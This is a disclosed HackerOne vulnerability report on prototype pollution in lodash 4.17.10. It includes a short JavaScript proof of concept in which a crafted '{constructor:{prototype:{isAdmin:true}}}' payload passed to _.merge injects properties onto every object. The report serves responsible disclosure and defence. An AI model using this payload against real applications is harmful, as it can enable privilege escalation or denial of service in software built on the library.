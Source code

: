 # Prototype pollution attack (lodash / constructor.prototype)

## Report Details
- **Report ID**: 380873
- **URL**: https://hackerone.com/reports/380873
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-07-12T08:28:18.713Z
- **Disclosed**: 2018-10-30T12:59:31.457Z

## Reporter
- **Username**: asgerf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a prototype pollution vulnerability in lodash.
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** lodash
**version:** 4.17.10
**npm page:** `https://www.npmjs.com/package/lodash`

## Module Description

The Lodash library exported as Node.js modules.

## Module Stats

12M downloads in the last week

# Vulnerability

## Vulnerability Description

This is a variant of this vulnerability:
https://hackerone.com/reports/310443

The functions `merge`, `mergeWith`, and `defaultsDeep` can be tricked into adding or modifying properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:

Craft an object of form `{constructor: {prototype: {...}}}` and send it to `_.merge`.

```javascript
var _ = require('lodash');
var payload = JSON.parse('{"constructor": {"prototype": {"isAdmin": true}}}');
_.merge({}, payload);
console.log({}.isAdmin); // true
```

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

Denial of service, possibly more depending on the application.
See https://hackerone.com/reports/310443

## Attachments
No attachments
